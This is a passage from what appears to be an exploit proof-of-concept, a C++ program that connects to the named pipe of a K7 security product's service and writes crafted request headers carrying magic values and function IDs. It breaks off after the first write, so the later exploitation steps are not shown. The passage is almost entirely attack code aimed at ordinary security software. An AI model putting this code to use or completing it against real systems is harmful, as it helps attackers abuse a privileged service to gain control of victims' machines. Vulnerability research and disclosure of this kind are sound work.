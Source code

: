 # PoC Code
```C++
#include <Windows.h>
#include <stdio.h>

/////////////////////////////////////
// Common code to talk to the Pipe //
/////////////////////////////////////
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwSomeMagic;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

HANDLE g_hPipe = INVALID_HANDLE_VALUE;

BOOL InitPipe()
{
	g_hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	printf("Connected to pipe\r\n");

	return TRUE;
}

BOOL CallPipeFunction(DWORD dwFunctionId, PBYTE pInput, DWORD dwInSize, PBYTE pOutput, DWORD dwOutSize)
{
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		if (!InitPipe())
		{
			return FALSE;
		}
	}

	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwSomeMagic = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = dwFunctionId;
	u1.dwInputDataSize = dwInSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(g_hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}
	printf("WriteFile 1 Success\r\n");

```